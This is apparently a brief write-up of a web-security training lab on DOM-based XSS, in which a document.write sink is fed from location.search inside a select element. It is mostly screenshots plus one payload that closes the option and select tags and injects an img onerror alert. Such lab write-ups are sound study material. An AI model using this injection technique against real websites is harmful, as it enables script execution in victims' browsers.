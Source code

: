 # Lab: DOM XSS in document.write sink using source location.search inside a select element

URL: https://0a8900b2047c9f6180d726de006000be.web-security-academy.net/

![](./Images/img1.png)

URL: https://0a8900b2047c9f6180d726de006000be.web-security-academy.net/product?productId=4

![](./Images/img2.png)

![](./Images/img3.png)

![](./Images/img4.png)

# Exploitation:

![](./Images/img5.png)

<br>

We have to escape the `option` and `select` tags.

Payload:

```
test</option></select><img src=x onerror=alert("XSS")>;
```

![](./Images/img6.png)